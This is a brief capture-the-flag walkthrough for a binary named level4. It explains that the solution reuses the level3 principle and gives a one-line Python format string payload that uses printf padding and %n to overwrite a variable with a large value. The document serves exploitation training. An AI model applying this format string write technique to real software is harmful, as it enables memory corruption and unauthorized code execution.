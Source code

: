 # Walkthrough

## Disassembling the executable

see source.c

## Analysis

The principle was the same as level3 (see walkthrough level3), although the value of m had to be greater than the buffer size.

To reach that value, we used printf padding as such:

```
python -c "print('\x10\x98\x04\x08 %16930016p %p %p %p %p %p %p %p %p %p %p %n') " | ./level4
```
